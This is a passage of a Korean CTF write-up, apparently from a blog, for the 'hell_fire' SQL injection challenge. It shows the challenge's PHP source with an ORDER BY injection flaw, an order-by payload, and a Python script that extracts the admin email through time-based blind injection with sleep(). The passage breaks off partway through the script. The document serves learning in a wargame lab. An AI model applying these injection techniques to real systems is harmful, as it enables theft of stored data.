 ## Hell_fire
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```
### exploit
```sql
select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}
-> select id,email,score from prob_hell_fire where 1 order by id DESC
payload = id DESC
```
이러한 값을 입력하여 DB에 저장된 값을 볼 수 있다.<br>
![hell-fire-list](/assets/img/post/hell_fire.png)<br>
DB에 저장된 값을 볼 수 있지만 admin의 email값은 ***로 마스킹 되어있어 볼 수 없었다.<br>
DB 쿼리가 성공했을 때의 반응이 없기 때문에 Timebased를 사용해서 email을 알아낼 것이다.
Darkeye 문제에서 사용한 code에서 union구문 대신 sleep구문을 사용할 것이다.<br>

```python
import requests
import time

url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for len in range(100):
  param = {'order': f"if(id='admin' and length(email)={len},sleep(1), 1)#"}
  start = time.time()
  res = requests.get(url=url, params=param, cookies=cookie)
  end = time.time()
  if end - start > 0.5:
    print(len)
    break

length = 28
email = ""
for len in range(1, length+1):
  for char in range(ord('0'), ord('z')):
    param = {'order': f"if(id='admin' and ord(substr(email,{str(len)},1))={str(char)}, sleep(1), 1)#"}
```